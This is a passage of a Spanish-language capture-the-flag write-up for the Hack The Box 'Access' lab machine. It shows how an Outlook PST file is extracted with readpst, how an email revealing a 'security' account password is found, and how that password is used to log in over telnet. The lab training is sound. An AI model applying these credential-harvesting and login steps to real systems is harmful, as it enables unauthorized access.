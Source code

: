 Desafortunadamente para la solución, no le estoy pasando como argumento la contraseña, pero les puedo asegurar que esa es la pass.

# Read PST file

Después de descomprimir el zip, tenemos un archivo con extensión **PST**, que es comúnmente usado por Outlook/Exchange, para almacenar los correos como un archivo, similar a EML. Exploramos este archivo con `readpst`:

``` text
xbytemx@laptop:~/htb/access/ftp-anon/10.10.10.98/Engineer$ readpst Access\ Control.pst
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.
```

Tenemos un archivo tipo **MBOX** como salida, el cual simplemente pasamos por `strings`:

``` text
xbytemx@laptop:~/htb/access/ftp-anon/10.10.10.98/Engineer$ strings Access\ Control.mbox00000001
From "john@megacorp.com" Thu Aug 23 18:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-1807661852_-_-"
----boundary-LibPST-iamunique-1807661852_-_-
Content-Type: multipart/alternative;
        boundary="alt---boundary-LibPST-iamunique-1807661852_-_-"
--alt---boundary-LibPST-iamunique-1807661852_-_-
Content-Type: text/plain; charset="utf-8"
Hi there,
The password for the
security
 account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
Regards,
John
```

Corte el contenido posterior para no dejar muy extensa esta parte.

Descubrimos que la password de la cuenta *security* es **4Cc3ssC0ntr0ller**.

> Creds for telnet is security / 4Cc3ssC0ntr0ller

# *cat user.txt*

Usando estas credenciales, ingresemos por telnet:

``` text
xbytemx@laptop:~/htb/access/ftp-anon/10.10.10.98/Engineer$ telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

login: security
password:

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>cd Desktop
```